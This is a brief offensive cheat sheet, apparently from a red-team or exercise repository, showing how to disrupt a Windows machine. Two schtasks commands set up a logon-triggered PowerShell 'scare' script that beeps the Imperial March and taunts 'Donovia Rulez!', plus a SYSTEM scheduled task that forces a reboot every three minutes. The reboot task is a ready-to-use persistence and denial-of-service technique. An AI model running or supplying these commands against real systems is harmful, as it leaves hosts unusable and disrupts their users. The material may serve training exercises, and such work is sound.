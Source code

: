 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/effect.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/effect.md#rolling-reboot">Bottom of Page</a>
</p>

# Cheatsheets - Effect
## Table of Contents
* [Scheduled Tasks](#scheduled-tasks)
  * [Rolling Reboot](#rolling-reboot) 

## Scheduled Tasks
### Rolling Reboot
```bash
schtasks.exe /create /tn "Scare" /tr "powershell -c 'C:\scare.ps1'" /sc onlogon /it
schtasks.exe /create /tn "Effect" /tr "shutdown /r /t 000" /ru "SYSTEM" /sc minute /mo 3  
```
```pwsh
# contents of scare.ps1 PowerShell script (plays Imperial March from Star Wars)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(659,500)
[console]::beep(349,350)
[console]::beep(523,150)
[console]::beep(440,1000)
[+] Donovia Rulez!
```
